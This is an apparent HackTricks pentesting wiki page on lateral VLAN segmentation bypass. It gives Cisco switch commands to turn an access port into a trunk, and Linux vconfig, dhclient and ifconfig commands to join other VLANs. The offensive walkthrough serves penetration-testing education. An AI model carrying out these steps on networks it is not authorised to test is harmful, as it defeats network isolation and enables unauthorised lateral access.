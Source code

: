 # Lateral VLAN Segmentation Bypass

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

If direct access to a switch is available, VLAN segmentation can be bypassed. This involves reconfiguring the connected port to trunk mode, establishing virtual interfaces for target VLANs, and setting IP addresses, either dynamically (DHCP) or statically, depending on the scenario (**for further details check [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)).**

Initially, identification of the specific connected port is required. This can typically be accomplished through CDP messages, or by searching for the port via the **include** mask.

**If CDP is not operational, port identification can be attempted by searching for the MAC address**:

```
SW1(config)# show mac address-table | include 0050.0000.0500
```

Prior to switching to trunk mode, a list of existing VLANs should be compiled, and their identifiers determined. These identifiers are then assigned to the interface, enabling access to various VLANs through the trunk. The port in use, for instance, is associated with VLAN 10.

```
SW1# show vlan brief
```

**Transitioning to trunk mode entails entering interface configuration mode**:

```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```

Switching to trunk mode will temporarily disrupt connectivity, but this can be restored subsequently.

Virtual interfaces are then created, assigned VLAN IDs, and activated:

```bash
sudo vconfig add eth0 10
sudo vconfig add eth0 20
sudo vconfig add eth0 50
sudo vconfig add eth0 60
sudo ifconfig eth0.10 up
sudo ifconfig eth0.20 up
sudo ifconfig eth0.50 up
sudo ifconfig eth0.60 up
```

Subsequently, an address request is made via DHCP. Alternatively, in cases where DHCP is not viable, addresses can be manually configured:

```bash
sudo dhclient -v eth0.10
sudo dhclient -v eth0.20
sudo dhclient -v eth0.50
sudo dhclient -v eth0.60
```

Example for manually setting a static IP address on an interface (VLAN 10):

```bash
sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
```

Connectivity is tested by initiating ICMP requests to the default gateways for VLANs 10, 20, 50, and 60.

Ultimately, this process enables bypassing of VLAN segmentation, thereby facilitating unrestricted access to any VLAN network, and setting the stage for subsequent actions.

## References

* [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

